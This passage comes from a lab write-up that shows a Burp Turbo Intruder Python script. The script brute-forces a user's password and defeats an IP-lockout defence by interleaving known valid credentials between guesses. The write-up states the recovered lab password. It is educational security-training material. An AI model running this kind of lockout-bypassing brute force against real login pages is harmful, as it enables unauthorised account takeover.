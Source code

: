 We've got the password = `mom`. (yes password changes everytime the lab restarts ;)).

### Solution #3 - Brute-force using Burp Turbo Intruder
Simple Burp's Intruder does not have any scripting possiblilties, but Burp's Turbo Intruder does. After installing and enabling it, we just need to select our POST request and choose Turbo Intruder through right mouse click and going into Extensions.

This is how i've set it up:

![picture 62](/assets/images/4de9f48c1e3af5f1cef9905a2238155d1b94cb4cf946836032af39cc35d7e4ab.png)  

Script:
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    i = 0
    for word in open('/Users/lukaosojnik/Downloads/pw'):
        i = i + 1
        if i < 2:
            # do one free run
            engine.queue(target.req, ["carlos", word.rstrip()])
        elif i == 2:
            # do one extra run and reset with valid credentials
            engine.queue(target.req, ["carlos", word.rstrip()])
            engine.queue(target.req, ["wiener", "peter"])
            i = 0
        else:
            break
```